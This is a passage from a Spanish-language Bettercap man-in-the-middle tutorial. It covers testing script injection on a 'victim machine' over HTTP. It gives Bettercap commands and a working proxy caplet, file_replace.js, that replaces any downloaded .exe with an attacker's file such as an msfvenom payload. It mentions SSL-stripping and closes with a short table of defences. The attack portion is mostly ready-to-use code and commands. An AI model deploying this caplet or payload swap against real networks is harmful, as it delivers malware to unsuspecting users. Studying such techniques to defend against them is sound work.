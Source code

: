 
#### ✅ Paso 4: Probar en la máquina víctima

1. Entra a un sitio web sin HTTPS, como:
   `http://neverssl.com`

2. Si la inyección funcionó, verás la alerta:

   > “¡Has sido hackeado!”

> ⚠️ No funciona en sitios con **HTTPS** a menos que uses técnicas avanzadas de SSL-stripping (no recomendadas sin autorización).

---

### 🧪 Ejemplo avanzado: Reemplazar un archivo `.exe` o `.zip`

Puedes redirigir descargas para entregar **otro archivo modificado**.

En Bettercap:

```bash
set http.proxy.script file_replace
http.proxy on
```

Crea el archivo `~/.bettercap/caplets/file_replace.js` así:

```javascript
function onResponse(req, res) {
  if (req.url.includes(".exe")) {
    res.body = readFile("/home/kali/archivo_falso.exe");
    res.header["Content-Length"] = res.body.length;
  }
}
```

Esto reemplaza cualquier `.exe` descargado con tu propio archivo (por ejemplo, un payload generado con `msfvenom`).

---

### 📁 Dónde guardar scripts

Por defecto, Bettercap busca scripts en:

```bash
~/.bettercap/caplets/
```

Puedes crear tus propios caplets (.cap) o scripts JS para automatizar manipulaciones.

---

### 🔐 ¿Cómo protegerse?

| Defensa               | Explicación                                    |
| --------------------- | ---------------------------------------------- |
| HTTPS                 | Previene modificaciones al tráfico             |
| VPN                   | Cifra todo el tráfico entre cliente y servidor |
| Detección de MITM     | Alertas por cambios ARP o certificados falsos  |
| Uso de DNSSEC         | Evita suplantación DNS                         |
| Educación del usuario | No usar redes públicas inseguras               |

---